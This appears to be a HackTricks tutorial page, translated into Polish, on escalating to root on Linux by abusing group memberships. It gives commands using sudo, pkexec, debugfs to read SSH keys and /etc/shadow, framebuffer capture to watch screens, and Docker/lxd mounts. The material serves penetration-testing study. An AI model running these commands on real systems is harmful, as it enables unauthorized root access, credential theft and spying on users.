 {% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

Użyj [**Trickest**](https://trickest.com/?utm_source=hacktricks&utm_medium=text&utm_campaign=ppc&utm_term=trickest&utm_content=command-injection), aby łatwo budować i **automatyzować przepływy pracy** zasilane przez **najbardziej zaawansowane** narzędzia społecznościowe na świecie.\
Uzyskaj dostęp już dziś:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=command-injection" %}

# Grupy Sudo/Admin

## **PE - Metoda 1**

**Czasami**, **domyślnie \(lub ponieważ niektóre oprogramowanie tego potrzebuje\)** w pliku **/etc/sudoers** możesz znaleźć niektóre z tych linii:
```bash
# Allow members of group sudo to execute any command
%sudo	ALL=(ALL:ALL) ALL

# Allow members of group admin to execute any command
%admin 	ALL=(ALL:ALL) ALL
```
To oznacza, że **każdy użytkownik, który należy do grupy sudo lub admin, może wykonywać cokolwiek jako sudo**.

Jeśli tak jest, aby **stać się rootem, wystarczy wykonać**:
```text
sudo su
```
## PE - Metoda 2

Znajdź wszystkie binarki suid i sprawdź, czy istnieje binarka **Pkexec**:
```bash
find / -perm -4000 2>/dev/null
```
Jeśli stwierdzisz, że binarny plik pkexec jest binarnym plikiem SUID i należysz do sudo lub admin, prawdopodobnie możesz wykonywać binaria jako sudo za pomocą pkexec. Sprawdź zawartość:
```bash
cat /etc/polkit-1/localauthority.conf.d/*
```
Tam znajdziesz, które grupy mają prawo do wykonywania **pkexec** i **domyślnie** w niektórych systemach linux mogą **pojawić się** niektóre grupy **sudo lub admin**.

Aby **stać się rootem, możesz wykonać**:
```bash
pkexec "/bin/sh" #You will be prompted for your user password
```
Jeśli spróbujesz wykonać **pkexec** i otrzymasz ten **błąd**:
```bash
polkit-agent-helper-1: error response to PolicyKit daemon: GDBus.Error:org.freedesktop.PolicyKit1.Error.Failed: No session for cookie
==== AUTHENTICATION FAILED ===
Error executing command as another user: Not authorized
```
**To nie dlatego, że nie masz uprawnień, ale dlatego, że nie jesteś połączony bez GUI**. I jest obejście tego problemu tutaj: [https://github.com/NixOS/nixpkgs/issues/18012\#issuecomment-335350903](https://github.com/NixOS/nixpkgs/issues/18012#issuecomment-335350903). Potrzebujesz **2 różnych sesji ssh**:

{% code title="session1" %}
```bash
echo $$ #Step1: Get current PID
pkexec "/bin/bash" #Step 3, execute pkexec
#Step 5, if correctly authenticate, you will have a root session
```
{% endcode %}

{% code title="session2" %}
```bash
pkttyagent --process <PID of session1> #Step 2, attach pkttyagent to session1
#Step 4, you will be asked in this session to authenticate to pkexec
```
{% endcode %}

# Grupa Wheel

**Czasami**, **domyślnie** w pliku **/etc/sudoers** możesz znaleźć tę linię:
```text
%wheel	ALL=(ALL:ALL) ALL
```
To oznacza, że **każdy użytkownik, który należy do grupy wheel, może wykonywać cokolwiek jako sudo**.

Jeśli tak jest, aby **stać się rootem, możesz po prostu wykonać**:
```text
sudo su
```
# Shadow Group

Użytkownicy z **grupy shadow** mogą **czytać** plik **/etc/shadow**:
```text
-rw-r----- 1 root shadow 1824 Apr 26 19:10 /etc/shadow
```
So, przeczytaj plik i spróbuj **złamać niektóre hashe**.

# Grupa dysków

To uprawnienie jest prawie **równoważne dostępowi root**, ponieważ możesz uzyskać dostęp do wszystkich danych wewnątrz maszyny.

Pliki: `/dev/sd[a-z][1-9]`
```text
debugfs /dev/sda1
debugfs: cd /root
debugfs: ls
debugfs: cat /root/.ssh/id_rsa
debugfs: cat /etc/shadow
```
Zauważ, że używając debugfs możesz również **zapisywać pliki**. Na przykład, aby skopiować `/tmp/asd1.txt` do `/tmp/asd2.txt`, możesz to zrobić:
```bash
debugfs -w /dev/sda1
debugfs:  dump /tmp/asd1.txt /tmp/asd2.txt
```
Jednakże, jeśli spróbujesz **zapisać pliki należące do roota** \(jak `/etc/shadow` lub `/etc/passwd`\), otrzymasz błąd "**Zabronione**".

# Grupa Wideo

Używając polecenia `w`, możesz znaleźć **kto jest zalogowany w systemie** i zobaczysz wynik podobny do poniższego:
```bash
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
yossi    tty1                      22:16    5:13m  0.05s  0.04s -bash
moshe    pts/1    10.10.14.44      02:53   24:07   0.06s  0.06s /bin/bash
```
The **tty1** oznacza, że użytkownik **yossi jest fizycznie zalogowany** do terminala na maszynie.

Grupa **video** ma dostęp do wyświetlania wyjścia ekranu. W zasadzie możesz obserwować ekrany. Aby to zrobić, musisz **złapać bieżący obraz na ekranie** w surowych danych i uzyskać rozdzielczość, którą używa ekran. Dane ekranu można zapisać w `/dev/fb0`, a rozdzielczość tego ekranu można znaleźć w `/sys/class/graphics/fb0/virtual_size`
```bash
cat /dev/fb0 > /tmp/screen.raw
cat /sys/class/graphics/fb0/virtual_size
```
Aby **otworzyć** **surowy obraz**, możesz użyć **GIMP**, wybrać plik **`screen.raw`** i jako typ pliku wybrać **Dane surowego obrazu**:

![](../../.gitbook/assets/image%20%28208%29.png)

Następnie zmodyfikuj Szerokość i Wysokość na te używane na ekranie i sprawdź różne Typy obrazów \(i wybierz ten, który lepiej pokazuje ekran\):

![](../../.gitbook/assets/image%20%28295%29.png)

# Grupa Root

Wygląda na to, że domyślnie **członkowie grupy root** mogą mieć dostęp do **modyfikacji** niektórych plików konfiguracyjnych **usług** lub niektórych plików **bibliotek** lub **innych interesujących rzeczy**, które mogą być użyte do eskalacji uprawnień...

**Sprawdź, które pliki członkowie root mogą modyfikować**:
```bash
find / -group root -perm -g=w 2>/dev/null
```
# Grupa Docker

Możesz zamontować system plików root maszyny hosta do woluminu instancji, więc gdy instancja się uruchamia, natychmiast ładuje `chroot` do tego woluminu. To skutecznie daje ci uprawnienia root na maszynie.

{% embed url="https://github.com/KrustyHack/docker-privilege-escalation" %}

{% embed url="https://fosterelli.co/privilege-escalation-via-docker.html" %}

# Grupa lxc/lxd

[lxc - Eskalacja uprawnień](lxd-privilege-escalation.md)


<figure><img src="/.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

Użyj [**Trickest**](https://trickest.com/?utm_source=hacktricks&utm_medium=text&utm_campaign=ppc&utm_term=trickest&utm_content=command-injection), aby łatwo budować i **automatyzować przepływy pracy** zasilane przez **najbardziej zaawansowane** narzędzia społeczności.\
Uzyskaj dostęp już dziś:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=command-injection" %}

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
